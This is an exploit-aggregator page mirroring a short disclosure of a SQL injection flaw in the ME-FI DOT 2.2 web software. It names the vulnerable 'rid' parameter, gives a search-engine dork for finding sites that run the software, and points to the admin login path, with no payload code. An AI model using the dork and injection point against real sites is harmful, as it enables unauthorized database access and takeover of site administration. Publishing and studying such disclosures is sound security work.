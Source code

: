 ```yaml
---
title: ME-FI DOT 2.2 SQL Injection exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:171146&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-03-01
fetch_date: 2025-10-04T08:18:49.117960
---
```


# ME-FI DOT 2.2 SQL Injection exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for ME-FI DOT 2.2 SQL Injection

2023-02-28 | CVSS 7.4

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:171146
====================================================================================================================================
| # Title : ME-FI DOT SQL Injection Vulnerability |
| # Author : indoushka |
| # Tested on : windows 10 Français V.(Pro) / browser : Mozilla firefox 108.0.3(32-bit) |
| # Vendor : https://www.me-fi.com |
| # Dork : "Developed by ME-FI.COM" |
====================================================================================================================================

poc :

[+] Dorking İn Google Or Other Search Enggine.

[+] http://127.0.0.1/kohkood.com/accommodation_detail.php?rid=12 <====| inject here

[+] http://127.0.0.1/kohkood.com/control/ <====| Login

Greetings to :=========================================================================================================================
|
jericho * Larry W. Cashdollar * brutelogic* hyp3rlinx* 9aylas * shadow_00715 * LiquidWorm* |
|
=======================================================================================================================================
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)